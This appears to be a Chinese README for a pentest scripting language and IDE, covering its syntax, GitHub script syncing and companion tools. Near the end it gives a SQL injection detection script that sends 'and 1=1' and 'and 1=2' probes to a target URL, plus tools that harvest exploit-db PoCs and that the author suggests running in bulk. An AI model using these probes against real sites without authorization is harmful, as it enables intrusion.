# Wker Test Langue

没有想到更好的名字，暂时先用这个名字吧，写这个脚本语言目的是为了避免类似于python那样，及时poc和exp编写的很多，但是想要统一规范的利用（对某个站点一次性测试很多脚本）还是比较困难的，所以我就写了这个脚本语言，为的是能够更有效率的进行渗透测试。

即可以含有编程语言的灵活性，又不缺失程序框架的规范性，这是高效率的一种体现。

如何体现这两点的请继续看下面的文章。

## 程序架构

框架使用java编写，所以跨平台性比较不错，支持Windows、Linux和mac。

这个框架语言的组成含有四部分：

1. 脚本解析引擎
2. 调用脚本引擎的IDE
3. 函数功能的支持库
4. 大家一起编写的脚本

前三者都由我已经完成了，还有最后一项我也在慢慢的编写，当然大家也可以帮助我编写脚本以及函数功能的支持库（支持库的编写需要关注官方的开发者文档）

## 程序目录

大家如果进行下载，将会得到的是一个含有脚本引擎以及函数支持库的IDE。

1. config：这个目录下面是存放着GitHub配置的相关信息，如果您配置完比GitHub仓库信息之后，会出现一个`github.info`这个文件，这个文件其实是一个java序列化的一个本地持久文件，所以如果这个文件被他人窃取可能会通过反编译我的软件得到相关的类，最终窃取你的token，千万要注意！
2. ico：这给没啥说的，就是一些图标信息
3. jar：这个是函数功能的支持库，里面会有一些按照规则写的jar包，如何编写支持库请移步到开发者官方文档，如果想要更新支持库，一是更新软件，而是在WKer的官方源中下载，切勿随意下载第三方未经授权的支持库，里面啥操作自己不去反编译也不知道，有可能会有反弹的shell，千万注意，但是Wker官方的是不会出现问题的。
4. script：这个是保存之前写好的脚本，里面是一类类的文件夹以及.wker的脚本。
5. WkerIDE.jar：这个就是主程序了，后面会详细介绍

## 程序的运行

由于使用的是动态加载支持库（实际上是动态加载jar包），java8前后的操作是不同的，虽然在程序内部做了一些判断URIClassLoader的操作，但是java8之后还是需要提供权限：

1. java8以及8之前的版本运行使用：`java -jar WkerIDE.jar -g`

2. java9以及9之之后的版本运行使用：`java --add-opens java.base/jdk.internal.loader=ALL-UNNAMED --add-opens jdk.zipfs/jdk.nio.zipfs=ALL-UNNAMED -jar WkerIDE.jar -g`

- -g参数：打开程序的gui界面

目前我也只写了这一个参数，之后程序的更新会增加许多自动化参数

程序启动界面：


程序一启动会弹出一个检查版本信息的加载界面，这个界面不仅会加载各种支持库还有初始化GitHub信息，也会检测更新。

程序启动之后就会出现如下的界面：



可以看到程序界面还算整洁。

## 程序界面介绍

程序一启动会出现一个实例代码：

```js
function main(args)
{
	print(" Wker is handsome !");
}
```

可以看到代码风格非常类似于js，但也有一些特点是类似于python的，为的就是能够在很短的时间内让大家熟练的使用代码（学起来很简单）。

#### 菜单栏

- 文件：里面包含了打开文件，保存文件，新建文件
- 运行：目前只提供了单独运行当前代码标签页的代码
- 设置：用来设置全局变量数组以及命令行参数和GitHub信息
- 官方源：用来打开官方信息

#### 中间部分

1. 支持库：显示当前支持库中提供的函数
2. 文件：有本地文件以及配置的GitHub仓库中的文件
   1. 双击本地文件可以在右侧的代码编辑框中进行展示
3. 右侧是一个动态多标签页的代码编辑框
   1. 这个双机标签页头部是可以进行关闭标签的

#### 底层部分

用来展示各种操作信息的

## 运行示例代码

点击：运行->开始运行。

会在控制台输出： Wker is handsome !



看到输出说明环境是没有什么问题的。

## 语法讲解

如果您有js和py的语言基础，那么读起Wker代码是十分简单的。

### 函数

首先我们要知道Wker语言是一门面向过程的语言，所以程序是由多个函数组成的。

函数又分为三种函数：

- 本地支持库的函数
- main函数
- 自定义函数

1. 支持库函数是由Wker官方提供的native本地函数，主要是用来提供功能接口的
2. main函数是程序运行的主函数，脚本运行就是从main函数进入的
3. 自定义函数是脚本编写者自定义的函数

#### 本地库函数

这里不详细介绍了，因为我们点击支持库的某一个库函数的时候在下方会出现相关的函数介绍，如果想要开发本地库函数可以阅读官方开发文档。

#### main函数的格式

`function main(args)`

使用关键字function关键字定义，其中args参数用来接收命令行传递过来的数组，目前命令行传递过来的数组定义暂时只能在：设置->命令函参数中进行设置，之后会推出命令行下运行的时候会直接传递进去的。

可以在main函数中使用args数组，例如：

1. 设置args数组
   - 

2. 打印args[0]
   - 

在这里我们也可以看到每一次执行脚本的时候都会用一个`------------------------------------------------------`分割线进行分割的。

#### 自定义函数

同样也是使用function进行定义，例如：

```js
function add(a,b)
{
	print("add函数已经运行");
	return a+b;
}

function main(args)
{
	print(add(2,3));
}
```

我们定义了一个add函数，add函数显示print了一行字，然后返回了a+b的值，我们在主方法中打印了add(2,3)的值，最终程序的运行结果：



可以看到我们输出的结果和想象中的并不是完全一样，哪里不一样呢？我们应该输出5，但我们输出了5.0。这是因为Wker语言没有类别区分，为了兼容性所以全部的数值结算的结果都是小数，那么我们如何得到一个整数的结果呢？我们可以使用库函数：`ToInt`进行转换：

```js
print(ToInt(add(2,3)));
```

最终执行的结果：


这样子们的小数部分就不存在了。

### 数据类型

Wker语言的数据形式有三种：

- 变量
- 数组

数据类型的话呢：

- 文本
- 小数
- 对象

这里称之为对象其实并不是十分准确，这里称为句柄可能会更加的准确一些，但是为了帮助大家理解还是称之为数组吧。

#### 变量的声明

可以使用`var`进行声明，也可以不进行声明直接进行赋值，例如：



可以看到没有进行变量声明也是可以的。

但是有一点注意，如果变量没有被赋值，如果直接使用的话呢，解析引擎会爆出not found的错误！

#### 数组的声明

可以用`array`进行声明，当然也可以不声明直接使用，例如：



可以看到我们使用ArrayAddEle函数向数组添加了一个值，最终将数组返回。

#### 对象的使用

暂时来说对于用户无法直接声明一个对象，对象其实在Wker中是一个句柄，通过这个句柄可以操作特定的对象，例如在ObjectLibrary这个支持库中导出的HashMap系列函数，就是典型的例子：



可以看出我们通过hashmap进行键值对的操作，但是有一点注意，我在开发支持库的时候我不小心将hash打成了hasp，哈哈，下次更新支持库的时候再说吧！

### 返回值

返回值类型：

1. 变量
2. 数组
3. 对象

#### 变量的返回

这个很简单，和常规的返回是一样的：

```js
function add(a,b)
{
	print("add函数已经运行");
	return a+b;
}
```

#### 数组的返回

这个在上面的数组的使用中已经用到了数组的返回，其实和变量的返回没有什么区别，只不过是返回了一个数组罢了。

#### 对象的返回

也是同样的，给大家看个例子大家就知道了：

```js
function GetHash()
{
	a = GetHaspMap();
	SetHaspMapValue(a,"Wker","Good");
	print(GetHaspMapValue(a,"Wker"));
	return a;
}

function main(args)
{
	print(GetHaspMapValue(GetHash(),"Wker"));
}
```

可以看到，我们定义了GetHash()函数，用来得到一个hashmap对象。

### 数据控制操作符

Wker语言有五种操作符

1. +
2. -
3. *
4. /
5. .

和你看到的一样+-*/没有什么好说的，但是注意的是只能操作变量或者数组元素（是整数的），而`.`这个操作符用来连接字符串的。

例如：

```js
function main(args)
{
	print("a"."b");
}
```

可以打印出ab。

### 条件操作符

1. `>`
2. `<`
3. `<=`
4. `>=`
5. `==`
6. `!=`

如上述所表述，前四种易于理解，无非就是比较大小的操作符。

第五种是表示两个数据相等（可以是数组也可是字符串）

第六种是表示两个数据不相等（可以是数组也可是字符串）

### 操作符优先级

非常可惜的是，在Wker语言中我并没有提供优先级，也就是说没有优先级，但是如何让Wker拥有优先级呢？很简单，那就是括号，虽然操作符没有优先级，但是括号是有的，任何在`()`中的都是优先进行运算的。

### 语法逻辑

目前Wker语言只提供了两个语法逻辑，因为其他的逻辑语法都是这两个的衍生品。

- if - else
- while

一个用来控制流程走向的，一个用来控制循环操作的。

#### if - else

基本的流程控制语句，也就是满足情况执行什么，不满足情况的时候执行什么。

这里举个例子大家就清楚了。

```js
function main(args)
{
	a = 15;
	if(a>10)
	{
		print("变量a大于10");
	}else
	{
		print("变量a不大于10");
	}
}
```

最终在命令行打印出：`变量a大于10`

#### while

循环语句，这个是用来在情况满足时循环执行某一段程序，在情况不满足时跳出。

例如如下代码：

```js
function main(args)
{
	a = 15;
	while(a >10)
	{
		print(ToInt(a));
		a = a-1;
	}
}
```

上面这段代码打印的结果：

```
15
14
13
12
11
```

循环执行了五次就跳出了循环。

##### continue

这个是在while循环中跳到循环结尾的一个语句，当满足一定的情况可以使用`continue`跳到循环的结尾，将上面的while循环稍作顺序调整和改变:

```js
function main(args)
{
	a = 15;
	while(a >10)
	{
		a = a-1;
		if(a>12)
		{
			continue;
		}
		print(ToInt(a));
	}
}
```

最终打印出来的结果：

```js
12
11
10
```

大家可以自己仔细考虑一下为什么只打印出了这三个。

##### break

这个是在while循环中跳出循环的一个语句，当满足一定的情况可以使用`continue`跳出循环，将上面的while循环稍作顺序调整和改变:

```js
function main(args)
{
	a = 15;
	while(a >10)
	{
		a = a-1;
		if(a<12)
		{
			break;
		}
		print(ToInt(a));
	}
}
```

最终打印的结果：

```
14
13
12
```

大家可以自己仔细考虑一下为什么只打印出了这三个。

### 全局变量与全局数组

#### 全局变量

全局变量分为两种，一种是相对于IDE的全局变量，针对于所有脚本，另一种是针对于当前脚本（这个可以认为是常量会更好）

先讲第二种针对于本脚本的

##### #define定义

当我们想要使用`""`这样子的字符的时候我们会比较麻烦，所以我们最好使用宏定义会比较简单，看如下例子：

```js
#define Wker = "good"

function main(args)
{
	print(Wker);
}
```

最终将会打印出：`"good"`，这个比较好理解，并且可以看到`#define`定义的常量是不受限于`""`的，所以我们可以输入一些相对于复杂的字符，但是`\r\n`是不可以的，如果想得到换行的话呢，你可以使用库函数：`StrRN`得到一个换行。

##### IDE全局变量

这个针对于所有脚本的，我们可以通过打开：设置->全局变量进行设置：



让后我们执行下面这段代码：

```js
function main(args)
{
	print(test);
}
```

最终是可以打印出Wker的，并且你再新建一个临时文件也是可以使用test这个变量的。

#### 全局数组

全局数组的定义是只有一种的，我们可以通过打开：设置->全局数组进行设置



然后我们执行下面这段代码：

```js
function main(args)
{
	print(ws[0]);
	print(ws[1]);
	print(Wker[0]);
	print(Wker[0]);
}
```

最终可以得到结果：

```
000
111
222
222
```

#### #request

这个不是赋值，而是一个必须请求。在我们想要得到一个指定变量的时候使用，例如我现在要用户必须提供给我一个名称为url的一个变量，否则不可以运行，我们可以使用`#request url = var`，如果我们没有赋值url，然后运行了脚本，那么脚本解析器会提示：



这个在之后的批量运行时是十分重要的！

虽然们可以使用`input`库函数从命令行得到输出结果，但是这并不是一个框架性质的做法，所以建议使用`#request`来从全局中得到值，当然`#request`可以是`var`也可以是`array`！

### 注释

#### 单行注释

使用`//`在代码的最后，可以随意填写你觉得可以帮助到你的内容

#### 多行注释

使用

```js
/*

*/
```

可以添加多行注释，里面可以填写可以帮助理解的内容

### 小例子（SQL注入点检测）

```js
#request url = var

function main(args)
{
	source = HttpGet(url,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0");
	right = HttpGet(url."%20and%201=1","User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0");
	wrong = HttpGet(url."%20and%201=2","User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0");
	if(GetStrLength(source[0]) == GetStrLength(right[0]))
	{
		if(GetStrLength(wrong[0]) != GetStrLength(right[0]))
		{
			print(url."   have sql");
		}else
		{
			print(url."   no have sql");
		}
	}else
	{
		print(url."   no have sql");
	}
}
```

通过这段代码可以从用户输入的url变量中进行获取连接，然后通过HttpGet得到页面代码，最终通过比较判断是否存在SQL注入漏洞，其实也就是一个简单的if - else逻辑判断。

从这一点也不难看出Wker语言有程序的灵活性也有框架的规范性。

不难想象我们可以通过编写一些获取全局url变量（全局url数组也可以）判断漏洞的脚本然后大批量同时执行。

## 配置GitHub仓库

写好脚本之后我们通常是存放到本地，但是这样子的方式往往会让我们的脚本丢失，所以将脚本存储到云端是一个更好的选择，那么GitHub将会是我们比较好的免费选择项目，所以Wker也想到了这一点，在程序的内部增加了脚本更新到GitHub的功能，虽然现在还是不是十分只能需要手动提交，但是之后将会推出更加完善的功能。

### 申请GitHub仓库

首先我们需要有一个GitHub的账号，然后访问https://github.com/new新建一个仓库，选择的时候最好选择public公开的方式，其他的也都就不是那么重要了，申请好之后，我们需要再次申请一个token用来连接我们的GitHub仓库。

### 创建token

访问：https://github.com/settings/tokens/new，来添加一个token令牌，这个令牌需要注意的是，申请之后他会显示你的token，这个一定要记好，以防之后忘记，因为之后GitHub将不会显示给你这个token了，权限的话呢看着给，要能够上传下载更新删除就可以了，我的话呢一般都是全部勾选，比较懒哈哈。

### 配置GitHub到Wker

点击设置->GitHub仓库设置

输入您的账号名称，然后点击获取仓库：



我们选择刚才的仓库，我这里选择Demo，然后在下方输入您的Token，然后点击确定：



然后我们就可以看到我们的GitHub仓库的文件了，这个时候我们就可以有点GitHub仓库中的项目进行下载，然后点击本地文件的项目进行上传更新到仓库：



然后我们就可以到仓库中进行查看：



如果下载的话呢就右键点击下载的项目下载就好了，并且因为保存了信息，所以在之后每次打开Wker的时候都是会自动登录GitHub的。

### 可能出现的问题

因为最近GitHub貌似受到了DNS污染的攻击，所以raw.githubusercontent.com这个域名可能访问不了，我们需要在hosts文件中进行配置：

在C:\Windows\System32\drivers\etc\hosts这个文件中加入：

`199.232.96.133 raw.githubusercontent.com`

199.232.96.133是你在www.ipaddress.com查询的结果。

Linux和macOS下也是修改host，这里过多赘述。

### 官方源

可以通过访问https://github.com/Wker666/Demo获取到更多的支持库以及脚本，虽然现在我还没有更新上去，哈哈！

## 配套工具

在我上传的文件中我们随之上传两个小工具。

1. cmsSearch：用来扫描网站用到的cms
   - `java -jar Wker_CMSSearch.jar http://www.xxx.com`不要删除cms文件夹下面的CMS.csv那个是本地的指纹库。工具会联网查找也会本地扫描。

2. EXPSearch：用来在exploit-db上面提取漏洞的
   - `java -jar WKer_EXPSearch.jar`程序生成的扫描信息结果会放在data目录下，有漏洞信息和poc或exp。

## V1.2新版本

这次版本更新其实没有太多的变化，主要是修复了之前的一些bug，以及增加了一些方便的操作。

最主要的更新是增加了批量执行脚本的功能，这个功能是勾选上你需要选择执行的脚本，然后选择运行中的运行所有选中脚本。

